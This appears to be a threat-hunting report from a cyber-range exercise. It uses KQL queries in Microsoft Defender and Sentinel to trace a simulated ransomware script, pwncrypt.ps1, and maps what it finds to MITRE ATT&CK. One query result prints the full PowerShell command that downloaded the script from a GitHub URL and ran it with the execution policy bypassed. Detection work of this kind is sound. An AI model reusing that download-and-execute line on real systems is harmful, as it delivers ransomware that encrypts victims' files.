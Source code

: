 # Project: PwnCrypt Ransomware Project Appendix

#### Summary:
This threat hunt was performed in Microsoft Azure and Defender XDR for End-Point. Below you'll see tables used with Sentinel (SIEM), KQL commands, and MITRE ATT&CK® Framework Mapping.

#### Raw event tables used:

| Table Name           | Official Documentation                                                                   |
| :------------------- | :--------------------------------------------------------------------------------------- |
| `DeviceNetworkEvents`| [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/devicenetworkevents)|
| `DeviceProcessEvents`| [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/deviceprocessevents)|
| `DeviceEvents`       | [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/deviceevents)|
| `DeviceFileEvents`   | [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/devicefileevents)|

#### KQL Appendix:

#### 1. Tracing PowerShell-Initiated `pwncrypt.ps1` Download Connection

```kql
let target_device = "arcwin10";
DeviceNetworkEvents
| where DeviceName == target_device and Timestamp == datetime(2025-05-10T19:01:44.3886333Z)
| project Timestamp, ActionType, InitiatingProcessCommandLine, RemoteUrl, InitiatingProcessAccountName, InitiatingProcessFileSize
| where isnotempty( RemoteUrl)
```

**Query Result:**
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| ActionType                  | ConnectionSuccess                                                  |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| RemoteUrl                   | hxxps://raw[.]githubusercontent[.]com                            |
| InitiatingProcessAccountName| arcanalyst1                                                      |
| InitiatingProcessFileSize   | 455680                                                           |

--- 

#### 2. Confirming `pwncrypt.ps1` Script Execution on `arcwin10`


```kql
let target_device = "arcwin10";
let start_time = datetime(2025-05-10 18:50:00Z); //May 10, 2025 1:50:00 PM CDT
let end_time = datetime(2025-05-10 19:21:00Z); //May 10, 2025 2:21:00 PM CDT
DeviceProcessEvents
| where DeviceName == target_device
| where Timestamp between (start_time .. end_time )
| project Timestamp,AccountName, InitiatingProcessFileName, InitiatingProcessCommandLine, ProcessCommandLine, FileName, FileSize, AdditionalFields
| where InitiatingProcessFileName contains "powershell" and AccountName == "arcanalyst1"
| sort by Timestamp desc
```

**Query Result:**
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| AccountName                 | arcanalyst1                                                      |
| InitiatingProcessFileName   | powershell.exe                                                   |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| ProcessCommandLine          | "cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1 |
| FileName                    | cmd.exe                                                          |
| FileSize                    | 289792                                                           |
| AdditionalFields            | {"DesktopName":"Winsta0\\Default"}                               |

--- 

#### 3. Verifying Full PowerShell Command Execution via DeviceEvents


```kql
let target_device = "arcwin10";
let start_time = datetime(2025-05-10 18:50:00Z); //May 10, 2025 1:50:00 PM CDT
let end_time = datetime(2025-05-10 19:21:00Z); //May 10, 2025 2:21:00 PM CDT
DeviceEvents
| where DeviceName == target_device
| where Timestamp between (start_time .. end_time )
| project Timestamp, ActionType, InitiatingProcessSHA1, InitiatingProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessParentFileName, AdditionalFields
| where ActionType contains "PowerShellCommand"
| sort by Timestamp asc
```

**Query Result:**
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| ActionType                  | PowerShellCommand                                                |
| InitiatingProcessSHA1       | 801262e122d6a2e758962896260d55bbd0136a                           |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| InitiatingProcessAccountName| arcanalyst1                                                      |
| InitiatingProcessParentFileName| explorer.exe                                                    |
| AdditionalFields            | {"Command":"Invoke-WebRequest -Uri 'hxxps://raw[.]githubusercontent[.]com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt[.]ps1' -OutFile 'C:\\programdata\\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\\programdata\\pwncrypt.ps1"} |

--- 
#### 4. Tracing `pwncrypt.ps1` Ransomware File Renaming Activity

```kql
let target_device = "arcwin10";
DeviceFileEvents
| where DeviceName == target_device
| where ActionType == "FileRenamed" and FolderPath contains "pwncrypt"
| project Timestamp, ActionType, FileName, PreviousFolderPath, InitiatingProcessAccountName, InitiatingProcessFileName
| sort by Timestamp asc
```

**Query Result:**
| Timestamp           | ActionType  | FileName                                   | PreviousFolderPath               | InitiatingProcessAccountName | InitiatingProcessFileName |
| :------------------ | :---------- | :----------------------------------------- | :------------------------------- | :--------------------------- | :------------------------ |
| May 10, 2025 2:01:45 PM | FileRenamed | 3546_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 2:01:45 PM | FileRenamed | 6267_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 2:01:45 PM | FileRenamed | 6705_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 4362_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 9982_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 4489_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 8270_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 1130_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 4935_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 6642_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 8762_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 8357_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |

--- 
### MITRE ATT&CK Framework

* **Command and Control** (`TA0011`):
    * **Payload Delivery:** `pwncrypt.ps1` was downloaded from an external GitHub URL using PowerShell's `Invoke-WebRequest` (aligns with `T1105` - Ingress Tool Transfer, leveraging `T1071.001` - Application Layer Protocol: Web Protocols).

* **Execution** (`TA0002`):
    * **PowerShell Scripting:** The core malware `pwncrypt.ps1` was executed via `powershell.exe` (`T1059.001` - Command and Scripting Interpreter: PowerShell).
    * **Command Shell Invocation:** `cmd.exe` was used to launch the PowerShell process that ran `pwncrypt.ps1` (`T1059.003` - Command and Scripting Interpreter: Windows Command Shell).

* **Defense Evasion** (`TA0005`):
    * **Execution Policy Bypass:** The script was run with `powershell.exe -ExecutionPolicy Bypass` to circumvent script execution restrictions (a common aspect of abusing `T1059.001` - PowerShell for defense evasion).

* **Privilege Escalation** (`TA0004`):
    * **Indicated Capability:** Later file encryption activity was observed under the `SYSTEM` account, and VirusTotal associated this tactic with the malware's hash, suggesting `pwncrypt.ps1` has or attempts privilege escalation. (The specific technique used by `pwncrypt.ps1` for this wasn't detailed in the provided logs).

* **Discovery** (`TA0007`):
    * **File & Directory Discovery:** The script enumerated user files and directories to identify targets for encryption (aligns with `T1083` - File and Directory Discovery).

* **Impact** (`TA0040`):
    * **Data Encrypted for Impact:** Files were encrypted, renamed (e.g., with `_pwncrypt.csv` suffix), and ransom/decryption instructions were generated (`T1486`).
 
    * ## Created By:
- **Author Name**: Jorge Juarez
- **PowerShell script creator**: [Josh Madakor](https://joshmadakor.tech/)
- **Author Contact**: https://www.linkedin.com/in/jorgejuarez1/
- **Date**: May 10, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `July 12, 2025`  | `Jorge Juarez`   


